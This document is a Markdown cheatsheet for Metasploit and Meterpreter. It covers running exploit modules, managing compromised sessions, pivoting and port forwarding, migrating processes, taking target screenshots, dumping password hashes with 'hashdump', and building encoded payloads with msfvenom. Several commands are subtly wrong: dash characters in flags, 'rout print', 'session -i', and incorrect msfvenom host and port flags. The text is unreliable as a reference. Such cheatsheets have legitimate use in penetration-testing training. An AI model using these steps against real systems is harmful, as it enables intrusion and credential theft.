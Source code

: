 # Metasploit Cheatsheet:

## Basic Metasploit :

User can use all regualr bash command in msfconsole ex. ls, cd, whoami, etc.

- Search for exploit:
```
msf6 > search [module name ex.smb, ftp, windows] type [module type: Auxiliary, post, expolit]
`````
- Use exploit:
````
msf6 > use exploit/[ExploitPath]
``````
- Specify a Payload to use:
````
msf6 > set PAYLOAD [PayloadPath]
``````
- Show options for the current modules:
````
msf6 > show options
``````` 
for Advanced options
````
msf6 > show Advanced options
```````
- Set options:
```
msf6 > set [Option] [Value]
`````
For null value use '' ex. set PASSWORD ''.

- Run exploit:
```
msf6 > exploit
`````
 or
````
msf6 > run
``````
- Information of Exploit:
````
msf6 exploit_type(exploit name) > info
``````
- Check exploit working or not:
````
msf6 exploit_type(exploit name) > check
``````
- Back to previous Moduleaas:
```
msf6 > back
`````
- Exit from Msfconsole:
```
msf6 > exit
`````
## Multiple Exploitation:
- Run the exploit expecting a single session that is immediately backgrounded:
```
msf > exploit -z
``````
- Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
````
msf > exploit –j
`````
- List all current jobs (usually exploit listeners):
```
msf > jobs –l
````
- Kill a job:
```
msf > jobs –k [JobID]
`````
## Multiple Sessions:

- List all backgrounded sessions:
```
msf > sessions -l
``````
- Interact with a backgrounded sessions:
````
msf > session -i [SessionID]
```````
- Background the current interactive session:
```
meterpreter > <Ctrl+Z>
`````
 or
````
meterpreter > background 
```````
## Routing Through Sessions:
- Adding Route:
````
msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- Deletting route:
````
msf > route del [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- To print route:
````
msf > rout print
``````
- Port Forwording:
```
msf > portfwd -l [local port] -p [victim port] -r [remote ip]
``````
## Meterpreter:

User can use all commands used on bash depends on his authority on the compromised system.

### Process Commands:
- Display the process ID of Metepreter
```
meterpreter > getpid
````
- Display the user ID that Meterpreter is running with:
```
meterpreter > getuid
`````
- Display process list
```
meterpreter > ps
``````
- Terminate a process given its process ID
````
meterpreter > kill
``````
- Run a given program with the privileges of the process the Meterpreter is loaded in:
````
meterpreter > execute
```````
- Jump to a given destination process ID
````
meterpreter > migrate
``````
### Network Commands:
- Show network interface information
````
meterpreter > ipconfig
``````
- Save as an image a screenshot of the target machine
````
meterpreter > screenshot
`````````
- Load the priv module
```
meterpreter > use priv
`````````
- Dump hashes from the box 
````
meterpreter > hashdump
``````
## Generating encodedcpaytload:
```
$ msfvenom –p [payload user want] -e [encoder] -i [no. of iteration of encoder] -f [file type of payload] -L [localhost] -P [local port] -o [output file]
`````
//tested in 2020
